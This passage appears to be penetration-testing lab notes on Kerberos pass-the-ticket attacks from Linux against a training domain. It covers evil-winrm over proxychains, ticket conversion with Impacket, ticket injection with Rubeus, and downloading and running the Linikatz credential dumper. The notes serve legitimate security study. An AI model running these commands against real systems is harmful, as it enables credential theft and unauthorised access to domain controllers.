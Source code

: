 	$ sudo apt-get install krb5-user -y
	# Use the domain name: INLANEFREIGHT.HTB, and the KDC is the DC01
	$ cat /etc/krb5.conf
	
	[libdefaults]
	        default_realm = INLANEFREIGHT.HTB
	
	<SNIP>
	
	[realms]
	    INLANEFREIGHT.HTB = {
	        kdc = dc01.inlanefreight.htb
	    }
	
	<SNIP>
	# Use evil-winrm
	$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
	```

> **Note:** If you are using Impacket tools from a Linux machine connected to the domain, note that some Linux Active Directory implementations use the FILE: prefix in the KRB5CCNAME variable. If this is the case, we need to modify the variable only to include the path to the ccache file.

---
##### From ccache file to kirbi file 
If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them.
``` bash
# from ccache to kirbi
$ impacket-ticketConverter krb5cc_647401106_I8I133 user0.kirbi
# from kirbi to ccache
$ impacket-ticketConverter user.kirbi krb5cc_647401106_I8I133
```
The you can use the kirbi file with rubeus
``` cmd 
C:\> Rubeus.exe ptt /ticket:c:\tools\user0.kirbi
C:\> dir \\dc01\user0
```
---
## Linikatz

[Linikatz](https://github.com/CiscoCXSecurity/linikatz) will extract all credentials, including Kerberos tickets, from different Kerberos implementations.

``` bash
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
```